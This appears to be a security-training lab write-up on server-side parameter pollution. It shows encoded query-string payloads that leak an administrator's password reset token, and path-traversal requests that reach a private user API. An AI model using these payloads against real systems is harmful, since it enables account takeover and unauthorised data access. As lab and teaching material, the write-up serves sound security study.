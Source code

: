 ### Lab: Exploiting server-side parameter pollution in a query string
Let's say there's a reset password endpoint:
```
POST /forgot-password
csrf=D14LzFHHUPJ9Dhxs1wUXAFuZhHymOd1P&username=administrator
```
Try to add another param to body, e.g.:
`username=administrator%26ff=44`
we get back a response:
`{"error": "Parameter is not supported."}`
Then we try to truncate the body:
`username=administrator%23`
And we get back a response:
`"error": "Field not specified."`
Which suggests that it expects another body param, called `"field"`, so we add it:
`username=administrator%26field=33%23`
And we get a response:
`{"type":"ClientError","code":400,"error":"Invalid field."}`
Here we can bruteforce "field" to get something other than invalid field
Later we find out that we can set `field=email` or `field=username` or `field=reset_token`
And as it turns out, if we do that, it'll return us the value of the `reset_token` from the database in the response:
`{"result":"stdow0449ahxbzaruxv6qdi826mkqh07","type":"reset_token"}`
We can then use this token for password reset
__Do not forget to check static/resetpassword.js file or other static files__

### Testing for server-side parameter pollution in REST paths
Consider an application that enables you to edit user profiles based on their username. Requests are sent to the following endpoint:
```
GET /edit_profile.php?name=peter
```
 This results in the following server-side request:
```
GET /api/private/users/peter
```
An attacker may be able to manipulate server-side URL path parameters to exploit the API. To test for this vulnerability, add path traversal sequences to modify parameters and observe how the application responds.

You could submit URL-encoded peter/../admin as the value of the name parameter:
```
GET /edit_profile.php?name=peter%2f..%2fadmin
```
This may result in the following server-side request:
```
GET /api/private/users/peter/../admin
```
If the server-side client or back-end API normalize this path, it may be resolved to `/api/private/users/admin`. 
